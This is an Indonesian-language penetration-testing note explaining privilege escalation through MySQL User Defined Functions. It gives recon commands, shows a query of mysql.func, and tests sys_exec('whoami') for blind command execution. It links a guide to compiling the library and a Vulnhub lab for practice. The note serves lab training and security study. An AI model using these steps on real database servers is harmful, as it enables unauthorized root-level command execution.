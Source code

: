 # Privilege Escalation Via UDF Functions MySQL
Pada MySQL, user bisa membuat custom functions. Hal ini dinamakan User Defined Function. Hal yang bisa jadi berbahaya adalah ketika UDF library dijalankan dengan akses root karena bisa menjadi celah priv esc

Syarat untuk bisa melakukan ini adalah dengan mendapatkan akses root mysql


## Recon
Jika kita menemukan mysql dijalankan dengan root. Maka ada kemungkinan kita bisa melakukan priv esc bilamana terdapat UDF Function. Cara ceknya 
```
ps -ef | grep mysql
```

Lalu cek library udf
```
$ locate udf
/usr/lib/lib_mysqludf_sys.so
```

Pastikan file library `lib_mysqludf_sys.so`  memiliki permission root, sebenarnya gak wajib ada library ini sih, kita lanjut aja ...

Jika mendapatkan username dan password mysql, coba cek `mysql.func`

```
mysql -u root -p
```


```
SELECT * FROM mysql.func
```

Misalnya ada function dengan nama `sys_exec` maka kita tes dengan cara 
```
select sys_exec
```
Jika hasilnya NULL seperti ini 
```
mysql> select sys_exec('whoami');
+--------------------+
| sys_exec('whoami') |
+--------------------+
| NULL               | 
+--------------------+
1 row in set (0.00 sec)

```
Maka sudah bisa dipastikan ada Blind RCE, namun jika error ada dua kemungkinan. 
1. Fuction membutuhkan parameter
2. Parameter yang dimasukkan salah

## Buat Exploit dari Awal
Jika UDF tersedia namun pada `mysql.func` gak ada, maka kita harus compile sendiri. Lebih jelasnya di https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf 

## Latihan
Kioptrix level 4 https://www.vulnhub.com/entry/kioptrix-level-13-4,25/